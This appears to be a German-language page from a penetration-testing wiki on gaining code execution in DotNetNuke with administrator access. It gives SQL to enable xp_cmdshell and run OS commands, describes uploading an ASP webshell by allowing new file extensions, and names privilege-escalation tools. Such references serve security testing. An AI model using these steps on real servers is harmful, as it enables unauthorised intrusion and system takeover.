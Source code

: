 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Wenn Sie sich als **Administrator** in DNN anmelden, ist es einfach, RCE zu erhalten.

## RCE

### Über SQL

Eine SQL-Konsole ist auf der **`Einstellungen`**-Seite zugänglich, wo Sie **`xp_cmdshell`** aktivieren und **Betriebssystembefehle ausführen** können.

Verwenden Sie diese Zeilen, um **`xp_cmdshell`** zu aktivieren:
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
Und drücken Sie **"Run Script"**, um diese SQL-Sätze auszuführen.

Verwenden Sie dann etwas wie das Folgende, um OS-Befehle auszuführen:
```sql
xp_cmdshell 'whoami'
```
### Via ASP-Webshell

In `Settings -> Security -> More -> More Security Settings` können Sie **neue erlaubte Erweiterungen** unter `Allowable File Extensions` hinzufügen und dann auf die Schaltfläche `Save` klicken.

Fügen Sie **`asp`** oder **`aspx`** hinzu und laden Sie dann in **`/admin/file-management`** eine **asp-Webshell** namens `shell.asp` hoch, zum Beispiel.

Greifen Sie dann auf **`/Portals/0/shell.asp`** zu, um auf Ihre Webshell zuzugreifen.

### Privilegieneskalation

Sie können **Privilegien eskalieren** mit **Potatoes** oder **PrintSpoofer**, zum Beispiel.

{{#include ../../banners/hacktricks-training.md}}
